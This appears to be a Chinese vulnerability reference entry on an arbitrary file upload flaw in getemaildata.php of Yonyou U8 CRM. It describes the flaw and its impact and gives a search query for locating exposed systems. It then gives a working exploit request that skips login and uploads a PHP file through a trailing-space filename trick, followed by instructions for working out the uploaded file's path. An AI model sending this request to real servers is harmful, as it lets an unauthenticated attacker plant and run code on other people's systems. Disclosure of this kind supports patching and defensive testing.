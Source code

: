 # 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件上传漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器权限，攻击服务器

## 漏洞影响

<a-checkbox checked>用友 U8 CRM客户关系管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="用友U8CRM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1680525831431-a143a41a-f89e-4132-913f-0f0e8858628c.png)

验证POC

```plain
POST /ajax/getemaildata.php?DontCheckLogin=1 HTTP/1.1
Host:
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykS5RKgl8t3nwInMQ

------WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Disposition: form-data; name="file"; filename="test.php "
Content-Type: text/plain

<?php phpinfo();?>

------WebKitFormBoundarykS5RKgl8t3nwInMQ
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691569542684-fcd74f60-b580-4ce4-8d2e-a914e213fbd4.png)

文件名需要十六进制减一

```plain
/tmpfile/updD24D.tmp.php
```